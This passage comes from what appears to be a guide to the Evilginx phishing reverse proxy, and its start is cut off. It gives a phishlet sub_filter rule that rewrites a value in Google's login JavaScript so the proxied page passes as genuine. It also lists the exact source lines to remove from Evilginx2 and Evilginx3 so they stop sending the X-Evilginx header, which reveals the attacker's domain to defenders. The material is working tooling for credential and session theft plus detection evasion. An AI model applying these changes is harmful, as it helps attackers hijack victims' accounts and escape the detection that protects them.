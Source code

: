 sub_filters:
  # Change/modify the value assigned to variable 'A' based on your target site. 
  - {triggers_on: 'www.gstatic.com', orig_sub: 'accounts', domain: 'google.com', search: 'A=si&&!d\?lX\.btoa\(y\):S\[6]\(40,l\[0],O\[l\[1]]\(24,0,8,y\),d\)', replace: 'A="aHR0cHM6Ly9hY2NvdW50cy5nb29nbGUuY29tOjQ0Mw."', mimes: ['text/javascript']}
```

### Evilginx3 Easter Egg Patch (X-Evilginx Header)
- Evilginx3 contains easter egg code which adds a `X-Evilginx` header with each request.
- This header contains the Attacker Domain name. So it can be used for detection.
- To remove the Easter egg from evilginx just remove/comment below mentioned lines from the `core/http_proxy.go` file.
```
// Line 179
o_host := req.Host

// Line 330
req.Header.Set(p.getHomeDir(), o_host)

// Line 512
req.Header.Set(p.getHomeDir(), o_host)

// Line 1495
func (p *HttpProxy) getHomeDir() string {
	return strings.Replace(HOME_DIR, ".e", "X-E", 1) 
}
```

### Evilginx2 Easter Egg Patch (X-Evilginx Header)
- Evilginx2 contains easter egg code which adds a `X-Evilginx` header with each request.
- This header contains the Attacker Domain name. So it can be used for detection.
- To remove the Easter egg from evilginx just remove/comment below mentioned lines from the `core/http_proxy.go` file.
```
// Line 183
egg2 := req.Host

// Line 350
hg := []byte{0x94, 0xE1, 0x89, 0xBA, 0xA5, 0xA0, 0xAB, 0xA5, 0xA2, 0xB4}  

// Line 407
req.Header.Set(string(hg), egg2)  

// Line 377 to 379
for n, b := range hg {
		hg[n] = b ^ 0xCC
	}
  
// Line 562 to 566
e := []byte{208, 165, 205, 254, 225, 228, 239, 225, 230, 240}
for n, b := range e {
		e[n] = b ^ 0x88
}
req.Header.Set(string(e), e_host)
